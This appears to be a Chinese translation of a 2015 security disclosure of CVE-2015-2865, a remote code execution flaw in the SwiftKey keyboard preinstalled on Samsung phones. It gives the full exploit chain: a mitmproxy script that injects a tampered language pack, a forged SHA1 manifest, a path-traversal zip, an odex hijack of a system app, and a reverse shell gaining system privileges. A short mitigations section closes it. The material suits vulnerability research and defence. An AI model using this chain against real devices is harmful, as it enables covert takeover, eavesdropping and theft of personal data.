

#Remote Code Execution as System User on Samsung Phones

---

三星默认输入法远程代码执行

## Summary

---

在能够劫持你的网络前提下,攻击者能够利用三星自带输入法更新机制进行远程代码执行并且具有 system 权限.

Swift键盘被预装在三星手机中并且不能卸载和禁用.即使修改了默认输入法,这个漏洞也是可以利用的.

>CVE-2015-2865

可能造成的危害:

1. 获取传感器以及资源,例如GPS/照相机/麦克风
2. 静默安装恶意软件
3. 篡改app 或者手机行为
4. 窃听通话或者短信
5. 窃取个人敏感数据比如照片/短信.

## How it Works

---

OEMs和carriers经常在设备中预装第三方应用,而且这些应用常常拥有较高的权限.就比如这次三星预装的Swift输入法

	➜  /tmp  aapt d badging SamsungIME.apk | head -3
	       package: name='com.sec.android.inputmethod' versionCode='4' versionName='4.0'
	       sdkVersion:'18'
	       targetSdkVersion:'19'
	       ➜  /tmp  shasum SamsungIME.apk
	       72f05eff8aecb62eee0ec17aa4433b3829fd8d22  SamsungIME.apk
		   
	➜  /tmp  aapt d xmltree SamsungIME.apk AndroidManifest.xml | grep shared
	           A: android:sharedUserId(0x0101000b)="android.uid.system" (Raw: "android.uid.system")
			   
上面的信息表明此输入法用的是三星系统证书签名的,并且拥有 system 权限只比 root 权限差一点.

## Accessibility

---

此漏洞的攻击向量需要攻击者能够篡改上行网络流量,在设备重启时或者其他输入法开始发起升级请求的场景后漏洞将自动触发(无需交互).

整个测试过程是在一个有 USB 网卡的 linux 虚拟机下进行的,所有的 http流量被透明代理到mitmproxy上,之后通过脚本生成注入攻击载荷.

## Discovery of the Vulnerability

---

Swift输入法有一个升级功能可以添加一个新的语言包到现在有的语言中.当用户下载新的语言包的时候.会进行如下请求:

	GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/az_AZ.zip
	              ← 200 application/zip 995.63kB 601ms
				  
压缩包下载后会被解压到以下目录:

	/data/data/com.sec.android.inputmethod/app_SwiftKey/<languagePackAbbrev>/.
	
压缩包内容:

	root@kltevzw:/data/data/com.sec.android.inputmethod/app_SwiftKey/az_AZ # ls -l
	       -rw------- system   system     606366 2015-06-11 15:16 az_AZ_bg_c.lm1
	       -rw------- system   system    1524814 2015-06-11 15:16 az_AZ_bg_c.lm3
	       -rw------- system   system        413 2015-06-11 15:16 charactermap.json
	       -rw------- system   system         36 2015-06-11 15:16 extraData.json
	       -rw------- system   system         55 2015-06-11 15:16 punctuation.json

可以看出压缩包中的文件是由 system user 写入的.权限很高哦,可以写入很多位置哦.因为压缩包和请求都是明文的,咱们可以尝试去篡改它.

可以通过 wifi 代理完成这个尝试,写了一个脚本来提高效率,脚本作用是当有语言包的请求时进行修改

	def request(context, flow):
	           if not flow.request.host == "kslm.swiftkey.net" or not flow.request.endswith(".zip"):
	             return
       
	           resp = HTTPResponse(
	               [1, 1], 200, "OK",
	               ODictCaseless([["Content-Type", "application/zip"]]),
	               "helloworld")
       
	           with open('test_language.zip', 'r') as f:
	             payload = f.read()
	             resp.content = payload
	             resp.headers["Content-Length"] = [len(payload)]
       
	           flow.reply(resp)
			   
Payload非常简单,就一个文件

	➜  /tmp  unzip -l test_keyboard.zip
	       Archive:  test_keyboard.zip
	         Length     Date   Time    Name
	        --------    ----   ----    ----
	               6  06-11-15 15:33   test
	        --------                   -------
	               6                   1 file
				   
修改之后查看/data/data/com.sec.android.inputmethod/app_SwiftKey/<languagePackAbbrev>目录,并没有发现语言包以及测试文件.这表示,应用对压缩包进行了合法性验证.当通过多次测试后,发现在压缩包下载之前有一个包含所有语言包列表/url路径/zip的SHA1哈希的配置文件被下载.

请求如下:

	>> GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/languagePacks.json
	              ← 200 application/json 15.38kB 310ms]
				 
请求这个配置文件:

	➜ curl -s 'http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/languagePacks.json' | jq '.[] | select(.name == "English (US)")'
	
服务器会返回一个列表包括语言/url/sha1,英语的 payload 如下:

	{
	         "name": "English (US)",
	         "language": "en",
	         "country": "US",
	         "sha1": "3b98ee695b3482bd8128e3bc505b427155aba032",
	         "version": 13,
	         "archive": "http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/en_US.zip",
	         "live": {
	           "sha1": "b846a2433cf5fbfb4f6f9ba6c27b6462bb1a923c",
	           "version": 1181,
	           "archive": "http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/ll_en_US.zip"
	         }
	       }
		   
之前所修改的压缩包的SHA1并没有在此配置文件中.配置文件也并没有进行安全的传输(加密/签名...),所以如果计算好 SHA1后伪造一个配置文件即可绕过上面的效验了.尝试在 payload 中加入目录遍历来达到写入/data/.目录的目的 (此目录需要 system 权限访问).

payload 如下:

	➜  samsung_keyboard_hax  unzip -l evil.zip 
	       Archive:  evil.zip
	         Length      Date    Time    Name
	       ---------  ---------- -----   ----
	               5  2014-08-22 18:52   ../../../../../../../../data/payload
	       ---------                     -------
	               5                     1 file
				   

做了如上尝试后成功写入文件

	➜  samsung_keyboard_hax  adbx shell su -c "ls -l /data/payload"
	       -rw------- system   system          5 2014-08-22 16:07 payload
 
## File write to code execution

---

现在我们有了 system user 的任意写入权限.下一个目标就是将写权限变成代码执行.Swift 输入法自身目录并没有可执行的二进制文件供我们覆盖.所以得另寻它处.

再对dex文件进行优化之后,文件会缓存到/data/dalvik-cache/目录下.此目录下所有文件为 system user 权限.现在需要寻找system组的文件,这样就可以通过system user权限执行.

root@kltevzw:/data/dalvik-cache # /data/local/tmp/busybox find . -type f -group 1000
       ./system@framework@colorextractionlib.jar@classes.dex
       ./system@framework@com.google.android.media.effects.jar@classes.dex
       ./system@framework@com.google.android.maps.jar@classes.dex
       ./system@framework@VZWAPNLib.apk@classes.dex
       ./system@framework@cneapiclient.jar@classes.dex
       ./system@framework@com.samsung.device.jar@classes.dex
       ./system@framework@com.quicinc.cne.jar@classes.dex
       ./system@framework@qmapbridge.jar@classes.dex
       ./system@framework@rcsimssettings.jar@classes.dex
       ./system@framework@rcsservice.jar@classes.dex
       ./system@priv-app@DeviceTest.apk@classes.dex

要从上述文件中选出一个自动调用的组件.理想情况下,对于整个odex文件仅替换需要的目标.最后选择DeviceTest(/data/dalvik-cache/system@priv-app@DeviceTest.apk@classes.dex) 作为目标.

反编译之后查看manifest文件,可以看到应用确实有sharedUserId=”android.id.system”,并且看到BroadcastReceiver定义, 设备启动或者重启时会激活它.

	<manifest android:sharedUserId="android.uid.system" android:versionCode="1" android:versionName="1.0" package="com.sec.factory" xmlns:android="http://schemas.android.com/apk/res/android">
	       ...
	               <receiver android:name="com.sec.factory.entry.FactoryTestBroadcastReceiver">
	                   <intent-filter>
	                       <action android:name="android.intent.action.MEDIA_SCANNER_FINISHED" />
	                       <data android:scheme="file" />
	                   </intent-filter>
	                   <intent-filter>
	                       <action android:name="android.intent.action.PACKAGE_CHANGED" />
	                       <data android:scheme="package" />
	                   </intent-filter>
	                   <intent-filter>
	                       <action android:name="android.intent.action.PRE_BOOT_COMPLETED" />
	                       <action android:name="android.intent.action.BOOT_COMPLETED" />
	                   </intent-filter>
	                   <intent-filter>
	                       <action android:name="com.sec.atd.request_reconnect" />
	                       <action android:name="android.intent.action.CSC_MODEM_SETTING" />
	                   </intent-filter>
	               </receiver>

现在需要为com.sec.factory.entry.FactoryTestBroadcastReceiver生成一个odex文件,exploit 代码如下:

	➜cat FactoryTestBroadcastReceiver.java | head
       
	       package com.sec.factory.entry;
	       import java.lang.Class;
	       import java.io.File;
	       import android.content.BroadcastReceiver;
	       import android.content.Context;
	       import android.content.Intent;
	       import android.util.Log;
       
	       public class FactoryTestBroadcastReceiver extends BroadcastReceiver {
	          //Exploit code here
	       }

创建完payload之后,我们可以通过DalvikExchange (dx)工具编译并运行它用来获取一个包含dalvik 字节代码的.jar文件.再进行一些优化,将jar push到设备生成odex

	ANDROID_DATA=/data/local/tmp dalvikvm -cp /data/local/tmp/<payload.jar>
	 com.sec.factory.entry.FactoryTestBroadcastReceiver
	 
缓存文件所在目录,shell权限可读

	shell@kltevzw:/data/local/tmp/dalvik-cache $ ls -l
	       -rw-r--r-- shell    shell        3024 2014-07-18 14:09  data@local@tmp@payload.jar@classes.dex

将payload注入到我们语言包之后,触发下载并重启.

	D/dalvikvm( 6276): DexOpt: --- BEGIN 'payload.jar' (bootstrap=0) ---
	       D/dalvikvm( 6277): DexOpt: load 10ms, verify+opt 6ms, 112652 bytes
	       D/dalvikvm( 6276): DexOpt: --- END 'payload.jar' (success) ---
	       I/dalvikvm( 6366): DexOpt: source file mod time mismatch (3edeaec0 vs 3ed6b326)
	   
作为 .ODEX 头的一部分,其存储CRC32以及classes.dex的修改时间,它根据原始APK的zip文件结构表：

	unzip -vl SM-G900V_KOT49H_DeviceTest.apk classes.dex
	       Archive:  SM-G900V_KOT49H_DeviceTest.apk
	        Length   Method    Size  Ratio   Date   Time   CRC-32    Name
	       --------  ------  ------- -----   ----   ----   ------    ----
	         643852  Defl:N   248479  61%  06-22-11 22:25  f56f855f  classes.dex
	       --------          -------  ---                            -------
	         643852           248479  61%                            1 file
		 
需要从zip文件中拉取这两点信息对载荷dex文件进行 patch,让其看上去像是从原始DeviceTest.apk生成的.请注意,CRC32以及文件修改时间并不能作为一种安全机制.需要了解的是,因为应用更新了所有缓存才需要更新.

Patching ODEX文件并触发漏洞,之后将会执行payload.因为是测试,所以这里只弹了个 shell.

	nc 192.168.181.96 8889
	       id
	       uid=1000(system) gid=1000(system) groups=1000(system),1001(radio),1007(log),1010(wifi),1015(sdcard_rw),1021(gps),1023(media_rw),1024(mtp),1028(sdcard_r),2001(cache),3001(net_bt_admin),3002(net_bt),3003(inet),3004(net_raw),3005(net_admin),3009(qcom_diag),41000(u0_a31000) context=u:r:system_app:s0

需要注意一点:生成 odex 载荷对应特定的三星设备.也就是说不同的设备/相同设备的不同系统版本需要单独生成 odex 载荷.还好Swift输入法在http 的UA中给咱们提供了这些信息..

	 'User-Agent': 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; SM-G900T Build/KOT49H)'
	 
## Mitigations

---

有 root 权限的设备可以卸载此输入法.

	adb shell pm list packages -f |grep IME

找到文件后切换到 root 权限进入目录删除.或者禁用此输入法

	pm disable com.samsung.inputmethod

没有 root 的权限的设备可以在收到 OTA 之后尽快升级.

如果你的设备三星以及不推送更新了,那就尽量不要加入一些陌生 wifi.如果大表哥要打你,你是挡不住的.

## Device

---

2015.6.16受影响设备统计 (都是美帝运营商的)

## From 

---

[https://www.nowsecure.com/blog/2015/06/16/remote-code-execution-as-system-user-on-samsung-phones/](https://www.nowsecure.com/blog/2015/06/16/remote-code-execution-as-system-user-on-samsung-phones/)

[https://www.nowsecure.com/keyboard-vulnerability/](https://www.nowsecure.com/keyboard-vulnerability/)

[https://github.com/nowsecure/samsung-ime-rce-poc/](https://github.com/nowsecure/samsung-ime-rce-poc/)